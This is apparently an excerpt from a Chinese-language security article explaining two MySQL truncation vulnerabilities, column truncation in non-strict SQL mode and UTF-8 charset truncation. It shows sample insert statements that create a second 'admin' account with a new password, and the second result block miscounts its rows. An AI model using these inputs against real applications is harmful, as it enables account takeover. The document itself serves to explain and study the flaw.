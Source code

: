 #### 1) Mysql SQL Column Truncation Vulnerabilities
  
这个漏洞又是大牛Stefan Esser发现的（Stefan Esser是我的偶像:)），这个是由于mysql的sql_mode设置为default的时候，即没有开启STRICT_ALL_TABLES选项时，MySQL对于插入超长的值只会提示warning，而不是error（如果是error就插入不成功），这样可能会导致一些截断问题。测试如下：
  
``` php
  
mysql> insert into truncated_test(`username`,`password`) values("admin","pass");
  

  
mysql> insert into truncated_test(`username`,`password`) values("admin           x", "new_pass");
  
Query OK, 1 row affected, 1 warning (0.01 sec)
  

  
mysql> select * from truncated_test;
  
+----+------------+----------+
  
| id | username   | password |
  
+----+------------+----------+
  
| 1 | admin      | pass     |
  
| 2 | admin      | new_pass |
  
+----+------------+----------+
  
2 rows in set (0.00 sec)
  
```
  
#### 2) Mysql charset Truncation vulnerability
  
这个漏洞是80sec发现的，当mysql进行数据存储处理utf8等数据时对某些字符导致数据截断。测试如下：
  
``` 
  
mysql> insert into truncated_test(`username`,`password`) values(concat("admin",0xc1), "new_pass2");
  
Query OK, 1 row affected, 1 warning (0.00 sec)
  

  
mysql> select * from truncated_test;
  
+----+------------+----------+
  
| id | username   | password |
  
+----+------------+----------+
  
| 1 | admin      | pass      |
  
| 2 | admin      | new_pass  |
  
| 3 | admin      | new_pass2 |
  
+----+------------+----------+
  
2 rows in set (0.00 sec)
  
```